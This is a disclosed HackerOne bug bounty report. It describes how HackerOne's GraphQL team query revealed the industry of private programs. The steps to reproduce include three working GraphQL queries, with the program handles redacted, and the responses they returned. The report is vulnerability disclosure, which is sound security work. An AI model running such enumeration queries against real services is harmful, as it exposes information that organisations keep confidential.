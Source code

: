 # Team object in GraphQL disclosed of private programs via the industry

## Report Details
- **Report ID**: 707406
- **URL**: https://hackerone.com/reports/707406
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-10-04T03:19:58.748Z
- **Disclosed**: 2019-11-23T09:19:24.466Z

## Reporter
- **Username**: haxta4ok00
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**
Disclosure of private programs across the industry


If the program is private, it will show industriy


### Steps To Reproduce
{"query": "query {team(handle:\\"█████████\\"){_id,industry}}"}

`{"data":{"team":{"_id":"█████████","industry":"Computer Hardware \u0026 Peripherals"}}}`

{"query": "query {team(handle:\\"█████████\\"){_id,industry}}"}

`{"data":{"team":{"_id":"████████","industry":"Computer Software"}}}`

{"query": "query {team(handle:\\"███\\"){_id,industry}}"}

`{"data":{"team":{"_id":"████","industry":null}}}`

## Impact

Disclosure of private programs

## Attachments
No attachments
